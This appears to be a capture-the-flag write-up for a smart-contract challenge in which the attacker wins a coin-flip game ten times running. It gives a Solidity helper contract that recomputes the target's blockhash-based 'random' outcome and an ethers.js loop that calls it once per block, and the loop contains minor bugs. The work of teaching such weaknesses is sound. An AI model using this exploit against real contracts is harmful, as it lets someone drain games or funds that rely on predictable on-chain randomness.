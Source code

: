 ### Goals

We need to guess correctly the outcome 10 times in the row.

### Exploit

This contract usues psuedo random entropy to determine the flip outcome. We could use it to our advantage. We can copy the logic related to determining the side and use it in our contract that will help us crack this level.

We will need to this over time since the CoinFlip contract only allows flipping coin once in a block.

### Code

Head on to Remix IDE and create contract, dont forget to choose provider as Injected from Metamask.

```code
interface ICoinFlip {
    function flip(bool) external;
    function consecutiveWins() external view returns(uint256);
}

contract HelperFlip {
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    ICoinFlip flip;

    constructor(address _flip) {
        flip = ICoinFlip(_flip);
    }

    function getWins() external view returns(uint256) {
        return flip.consecutiveWins();
    }

    function guessForMe() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;

        bool side = coinFlip == 1 ? true : false;
        flip.flip(side);
    }
}
```

Now deploy the Helper with address of CoinFlip contract, if everything goes right you should see instance of newly deployed contract.

It would be good now to use some JS snippet:

```code
import { ethers } from "ethers";

let tx;
let provider = new ethers.JsonRpcProvider(
  "https://ethereum-sepolia.publicnode.com"
);

const signer = new ethers.Wallet(
  "YOUR_PRV_KET",
  provider
);

let helper = new ethers.Contract(
  "HELPER_ADDRESS",
  [
    "function guessForMe() external",
    "function getWins() external view returns (uint256)",
  ],
  signer
);

let wins = await helper.getWins();
while (wins <= 10) {
  console.log(`wins: ${wins}`);
  let newBlock = await provider.getBlock("latest");
  if (lastBlock != newBlock) {
    lastBlock = newBlock;
    tx = await helper.guessForMe({ gasLimit: 100_000 });
    await tx.wait();
    console.log(`tx: ${tx.hash}`);
    wins = await helper.getWins();
  }
}
```

It will guess the correct side for you and call FlipCoin contract.

Done!
